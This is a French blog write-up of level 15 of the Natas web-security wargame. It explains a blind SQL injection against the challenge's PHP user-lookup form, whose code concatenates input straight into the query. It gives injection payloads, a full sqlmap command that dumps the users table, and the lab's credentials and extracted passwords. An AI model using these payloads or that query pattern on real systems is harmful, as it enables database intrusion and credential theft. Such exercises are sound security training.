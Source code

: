= Wargame Natas - Writeup Level 15
description: La solution du level 15 du wargame Natas qui s'avère être une faille de type blind SQL injection.
:hp-tags: security
:published_at: 2012-11-25

Il y a quelque temps je me suis penché sur le wargame http://www.overthewire.org/wargames/natas[Natas] présent sur le site  http://www.overthewire.org[overthewire.org], qui permet de s'initier à la sécurité web. Les épreuves sont pour la plupart assez simples et ne devrait pas poser de problèmes à ceux qui ont l'habitude des épreuves de ce genre là. Pour ceux que ça intéresse j'ai mis à disposition les solutions des épreuves précédentes sur le http://wiki.zenk-security.com/doku.php?id=natas_wargame[wiki] de ZenkSecurity.

J'ai choisi de rédiger le writeup du level 15 pour montrer que la bonne maîtrise d'un outil peut faire gagner pas mal de temps, en l’occurrence nous allons utiliser sqlmap qui est un des outils les plus populaires pour exploiter les failles de type SQL injection.

L'épreuve se présent sous la forme d'un simple formulaire permettant de vérifier l'existence d'un utilisateur dans la base de données. Lorsque que l'on valide le formulaire un message nous indique si oui ou non l'utilisateur est présent.

On suppose qu'il va falloir récupérer les informations de l'utilisateur `natas16` puisqu'il existe.

Jetons un oeil au code source :

[source, php]
----
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
----

On apprend tout d'abord que les informations sont stockées dans une table nommée `users` et qui comprend deux colonnes, `username` et `password`. Le flag pour le prochain niveau correspond très probablement au mot de passe de l'utilisateur `natas16`.

On remarque qu'il est possible de modifier la requête SQL en manipulant le paramètre `username` puisque ce dernier n'est pas filtré. Malheureusement on ne va pas pouvoir directement récupérer les informations présente en base puisque la seule informations que nous est fournis est si oui ou non l'utilisateur existe.

Pour arriver à nos fin nous allons utiliser une technique appelé Blind SQL injection, un exemple est plus parlant :

    natas16" and 1=2# // This user doesn't exist.
    natas16" and 1=1# //  This user exist.
    natas16" and substr(password,1,1)='4'# // This user doesn't exist.
    natas16" and substr(password,1,1)='3'# //  This user exist.

On peut donc récupérer caractère par caractère le mot de passe de l'utilisateur natas16 avec un petit script, mais comme je suis feignant on va utiliser sqlmap avec les options qui vont bien:

    sqlmap.py
    -u "http://natas15.natas.labs.overthewire.org/"
    --string="This user exists"
    --technique=B
    --auth-type=Basic
    --auth-cred=natas15:m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV
    --data "username=natas16"
    -D natas15
    -T users
    -C username,password
    --dump
    --level=5
    --risk=3

Après quelques minutes vous devriez obtenir ceci :

    +----------------------------------+----------+
    | password                         | username |
    +----------------------------------+----------+
    | hROtsfM734                       | alice    |
    | 6P151OntQe                       | bob      |
    | HLwuGKts2w                       | charlie  |
    | 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L | natas16  |
    +----------------------------------+----------+

Et une épreuve validée de plus :)

Pour plus d'info concernant les options de sqlmap reportez vous à la https://github.com/sqlmapproject/sqlmap/wiki/Usage[documentation].

Et si vous voulez voir l'exécution du script en direct c'est par ici :

++++
<script type="text/javascript" src="https://asciinema.org/a/1623.js" id="asciicast-1623" async></script>
++++